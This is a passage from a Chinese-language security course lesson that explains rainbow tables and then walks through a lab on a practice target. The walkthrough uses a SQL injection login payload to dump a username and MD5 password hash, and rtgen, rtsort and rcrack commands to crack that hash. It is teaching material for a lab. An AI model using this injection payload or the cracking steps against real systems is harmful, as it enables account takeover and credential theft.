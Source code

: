 这样即使发生了之前我们所描述的碰撞情况，通常会是以下这种情况：

![图片](https://static001.geekbang.org/resource/image/82/44/82888d9c587a7ac04df7147eb7a03044.png?wh=1641x516)

可以看到，虽然部分节点发生了碰撞，但是由于发生碰撞的位置并非在同一序列，使用的R函数也不是同一个，因此后续产生的节点也不相同。

这样，即使同一序列位置发生碰撞，导致后续节点完全相同，但是因为末节点是相同的，所以我们仍然可以非常快速地找出这条相似链，删除它来优化存储空间。

而关于彩虹表的使用方法，本质上与HASH链集并无二致，核心思想仍然是计算得出R函数的结果并与HASH链进行匹配。它们的区别在于， **计算出的序列结果是否唯一**。因为HASH链集使用的是相同的R函数，所以，如果我们对待破解的HASH散列进行R函数计算，所产生的序列结果是唯一的；但是彩虹表使用的是不同的R函数，因此计算时需要将待破解的HASH散列带入不同位置，从而得出多个序列结果。

## 案例实战

了解了彩虹表的原理和用法，接下来，我们就进入一个真实场景中实战一下。

打开 [MiTuan](https://mituan.zone/#/) 并选择【极客时间-漏洞挖掘与智能攻防实战】靶场，进入后选择【忘记加“盐”：加密结果强度不够吗？】靶机环境。

可以看到，这是一个很简单的登录界面。

![图片](https://static001.geekbang.org/resource/image/50/a3/505cc45yy41bb6abdcbfa69eb58f16a3.png?wh=1920x1033)

接下来，我们使用简单的注入来获取用户密码信息：

```sql
User = ' union select username,password from users;
Password = 1

```

如果你不理解这个注入过程，不要担心，下一节课我们就会深入探讨SQL注入漏洞。

通过简单的注入操作，我们可以获得用户名以及密码信息如下：

![图片](https://static001.geekbang.org/resource/image/a8/78/a8e374bde5b69895e1af40e4a754c778.png?wh=1920x1033)

```plain
Dumb
2b161cb042f799e5f43ae6efc9e57926

```

接下来我们就尝试使用彩虹表攻击来破解这个HASH散列值。

首先解压我们提供的压缩包，进入rainbow目录后运行如下命令：

```bash
docker build -t rainbow:v0 . # 构建镜像
docker run -it rainbow:v0 # 启动容器并获得交互式shell

# 生成 md5哈希函数的 1-9a-zA-Z 最短1位 最长5位 10种不同R函数组合 每条链5000长度 10000条链 0偏移 的彩虹表
./rtgen md5 mixalpha-numeric 1 5 10 10000 60000 0

# 生成彩虹表之后排序，方便结果查找
./rtsort .

# 执行彩虹表破解，极小概率失败，主要是由于彩虹表具有不确定性，因此不能确保成功
./rcrack . -h 2b161cb042f799e5f43ae6efc9e57926

```
